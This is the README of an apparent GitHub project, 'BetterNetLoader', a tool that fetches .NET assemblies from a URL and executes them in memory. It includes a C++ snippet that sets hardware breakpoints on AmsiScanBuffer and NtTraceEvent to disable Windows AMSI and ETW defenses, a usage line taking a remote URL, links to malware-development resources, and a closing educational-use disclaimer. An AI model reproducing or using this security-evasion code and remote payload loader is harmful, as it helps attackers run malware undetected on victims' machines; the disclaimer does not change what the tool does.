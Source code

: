 # BetterNetLoader

This is a version of [NetLoader](https://github.com/Flangvik/NetLoader) to execute .NET Assemblies in memory and bypassing ETW and AMSI.

Only this version uses Hardware Breakpoints to bypass defenses:
```cpp
HwbpEngineBreakpoint(0, GetProcAddress(LoadLibraryA("amsi.dll"), "AmsiScanBuffer"));
HwbpEngineBreakpoint(1, GetProcAddress(LoadLibraryA("ntdll.dll"), "NtTraceEvent"));
if (!(ExceptionHandle = AddVectoredExceptionHandler(TRUE, (PVECTORED_EXCEPTION_HANDLER)HwbpEngineHandler))) {
  printf("[-] AddVectoredContinueHandler Failed with Error: %lx\n", GetLastError());
	goto _END_OF_FUNC;
}
```

It places 2 Hardware Breakpoints: one on `AmsiScanBuffer` and another on `NtTraceEvent` to effectively disable these two functions part of AMSI and ETW respectively.

# Usage:

```cmd
.\BetterNetLoader.exe <url> <arguments...>
```

# Example:
![image](https://github.com/user-attachments/assets/1ad9283c-057e-4e30-be0b-a7c3303dabf5)

# Resources

Hosting the CLR Natively -> https://github.com/etormadiv/HostingCLR

Microsoft Documentation on CLR Hosting using COM Interfaces -> https://learn.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/clr-hosting-interfaces

VX API (recommended for maldev snippets) -> https://github.com/rad9800/hwbp4mw

Maldev Academy for learning about Malware Development -> https://maldevacademy.com

Information about Wininet from Microsoft -> https://learn.microsoft.com/en-us/windows/win32/wininet/about-wininet

Gists for Wininet Windows Library for HTTP Requests -> https://gist.github.com/AhnMo/5cf37bbd9a6fa2567f99ac0528eaa185

# DISCLAIMER

## IMPORTANT: READ CAREFULLY BEFORE USING THIS SOFTWARE

By using this software, you agree to the following terms:

## Purpose of Use
This software is provided strictly for educational purposes only, specifically to help users understand programming techniques, cybersecurity concepts, and software development practices. It is not intended to be used for any malicious, illegal, or unethical activities.

## Prohibited Activities
Any use of this software for the following purposes is explicitly prohibited and is a violation of this agreement:

Exploiting vulnerabilities or gaining unauthorized access to systems, networks, or devices.
Developing or deploying malicious software, such as viruses, trojans, or ransomware.
Engaging in any activities that violate local, national, or international laws or regulations.
Conducting activities that cause harm, disruption, or damage to any individual, organization, or system.

## Liability and Responsibility

The author of this software assumes no liability or responsibility for any damages, losses, or legal consequences resulting from the misuse of this software.
The user is solely responsible for ensuring compliance with all applicable laws and regulations in their jurisdiction. The author disclaims all liability for actions taken by users that violate these laws or this disclaimer.
Acknowledgment of Ethical Use

## By using this software, you acknowledge and agree to:

Use the software in a responsible, ethical, and lawful manner.
Refrain from using the software in any way that could harm individuals, organizations, or infrastructure.
Understand that this software is provided "as is," without any warranty or guarantee of functionality or suitability for any purpose.

## Educational Focus
This software is designed to educate and enhance skills in secure programming, ethical cybersecurity practices, and system understanding. It is intended for use in controlled environments, such as personal research or academic study, where proper authorization has been granted.

By downloading, installing, or using this software, you acknowledge that you have read, understood, and agreed to this disclaimer. If you do not agree with these terms, you are strictly prohibited from using the software and must delete it immediately.
